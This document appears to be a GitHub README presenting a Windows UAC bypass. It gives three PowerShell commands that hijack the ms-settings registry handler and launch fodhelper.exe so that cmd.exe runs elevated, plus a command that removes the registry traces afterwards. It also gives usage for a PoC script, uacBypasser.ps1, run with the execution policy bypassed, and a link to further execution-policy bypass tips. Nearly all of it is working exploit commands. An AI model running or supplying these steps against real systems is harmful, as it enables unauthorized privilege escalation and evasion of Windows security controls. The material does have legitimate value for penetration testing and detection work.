


# Bypass Windows UAC Technique

## Bypass UAC with 3 Commands
```
#spawn cmd.exe process 
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Value "cmd.exe" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force

#start fodhelper.exe to execute command in the registry
Start-Process "C:\Windows\System32\fodhelper.exe"
```
### Cleanup the registry value 
```
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```



## PoC of uacBypasser.ps1



Usage: 
```
1) input the commands to execute in the batch script
2) powershell.exe -executionpolicy bypass -file .\uacBypasser.ps1 <batch script location>
```
### Tips to bypass ExecutionPolicy in powershell can refer to the link below

```
https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/
```